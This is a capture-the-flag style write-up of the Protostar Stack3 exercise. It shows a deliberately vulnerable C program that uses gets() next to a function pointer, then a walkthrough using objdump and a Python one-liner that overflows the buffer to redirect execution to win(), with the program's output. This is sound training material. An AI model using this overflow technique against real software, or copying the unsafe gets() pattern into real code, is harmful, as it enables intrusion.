
# Stack 3

https://exploit-exercises.com/protostar/stack3/

## Goal

To call the `win` function. The site notes that "gdb and objdump is your friend".

## Source Code

stack3.c

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Exploit

It's pretty clear that we need to override the value of `fp` with the address of the `win` function, so that the program will call the
`win` function. First, let's figure out where our `win` function lives. A little investigation into the `objdump` tool reveals that we
can use the `-D` flag to disassemble-all. Let's try it.

Running `objdump -D ./stack3` reveals a ton of output. Let's try to pipe that to `grep` to get any lines with `win`. Running `objdump
-D ./stack3 | grep win` reveals:

```
08048424 <win>:
```

Okay, let's hope that that first thing is the address of `win`. Now we just need to override `fp` with that value. Using Python, let's
print 64 'a's and then `"\x08\x04\x84\x24"[::-1]`. (Note: the `[::-1]` flips the order of those bytes, because addresses are
little-endian). Thus, we see the following:

```
$ python -c 'print "a"*64 + "\x08\x04\x84\x24"[::-1]' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
